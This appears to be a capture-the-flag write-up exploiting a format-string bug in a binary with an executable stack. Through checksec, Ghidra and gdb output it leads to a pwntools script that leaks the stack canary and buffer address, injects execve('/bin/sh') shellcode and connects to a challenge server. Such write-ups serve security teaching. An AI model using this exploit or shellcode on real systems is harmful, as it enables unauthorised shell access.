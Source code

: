 +++
title = "Shell is Love, Shell is life"
date = 2024-09-11
authors = ["Abhinav I S"]
+++

As with all pwn challenges, we run checksec on the binary
```checksec --file=pwn```

```bash
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

NX bit is disabled !, we can execute code on the stack!, 
let us try disassembling the binary using GHIDRA
```c

undefined8 main(void)

{
  long in_FS_OFFSET;
  undefined8 local_78;
  undefined8 local_70;
  undefined8 local_68;
  undefined8 local_60;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined4 local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  banner();
  setbuf(stdout,(char *)0x0);
  local_78 = 0x333c2049;
  local_70 = 0;
  local_68 = 0;
  local_60 = 0;
  local_58 = 0;
  local_50 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  puts("Can you pwn me?");
  puts("What is your name?");
  fgets((char *)&local_78,100,stdin);
  puts("Welcome to the contingent");
  printf((char *)&local_78);
  puts("Anything else?");
  fgets((char *)&local_78,0x100,stdin);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

They are printing user input directly using printf!
We can leak information using format string vulnerabilities

Let us observe the stack using gdb 
`x/50x $rsp`

```
0x7fffffffdc90: 0x0000000d      0x00000000      0xffffdca0      0x00007fff
0x7fffffffdca0: 0x6c243725      0x00000a78      0x00000000      0x00000000
0x7fffffffdcb0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdcc0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdcd0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdce0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdcf0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdd00: 0x00000000      0x00000000      0x20220400      0x87f89f7d
0x7fffffffdd10: 0x00000001      0x00000000      0xf7c29d90      0x00007fff
0x7fffffffdd20: 0x00000000      0x00000000      0x55555240      0x00005555
0x7fffffffdd30: 0xffffde10      0x00000001      0xffffde28      0x00007fff
0x7fffffffdd40: 0x00000000      0x00000000      0x66b41503      0xb621f5da
0x7fffffffdd50: 0xffffde28      0x00007fff
```
Strangely, there is an address in the stack, in the stack itself! (0x7fffffffdca0) at 0x7fffffffdc98

, Let us try putting AAAA into the first input prompt !

examining the stack again,
```
gef➤  x/50x $rsp
0x7fffffffdc90: 0x0000000d      0x00000000      0xffffdca0      0x00007fff
0x7fffffffdca0: 0x0a414141      0x00000000      0x00000000      0x00000000
0x7fffffffdcb0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdcc0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdcd0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdce0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdcf0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffdd00: 0x00000000      0x00000000      0x67406800      0xa126b205
0x7fffffffdd10: 0x00000001      0x00000000      0xf7c29d90      0x00007fff
0x7fffffffdd20: 0x00000000      0x00000000      0x55555240      0x00005555
0x7fffffffdd30: 0xffffde10      0x00000001      0xffffde28      0x00007fff
0x7fffffffdd40: 0x00000000      0x00000000      0x1dd653c2      0xd568252e
0x7fffffffdd50: 0xffffde28      0x00007fff
```

The address of the buffer is in the stack !, we can leak this address, along with the canary, write shellcode in this buffer, and then over write the return address with the address of the buffer!

```python
from pwn import *

#exe = ELF("./vuln")

#context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("10.21.232.38", 7003)

    return r


def main():
    r = conn()
    # 22 - > rbp
    # 21 - > canary
    # 7-> location of the array
    payload1 = b"%7$lx.%21$lx"
    r.recvuntil(b"name?\n")
    r.sendline(payload1)
    r.recvuntil("contingent\n")
    data = r.recv().split(b'\n')[0]
    print(data.split(b"."))
    data = data.split(b".")
    addr = int(data[0],16)
    canary = int(data[1],16)


    shellcode = b"\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05"

    #shellcode is 28 bytes long

    print(len(shellcode))
    payload2 = shellcode + b"A"*(104-48)+ p64(canary) +b"B"*8 + p64(addr)


    r.sendline(payload2)
    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
```





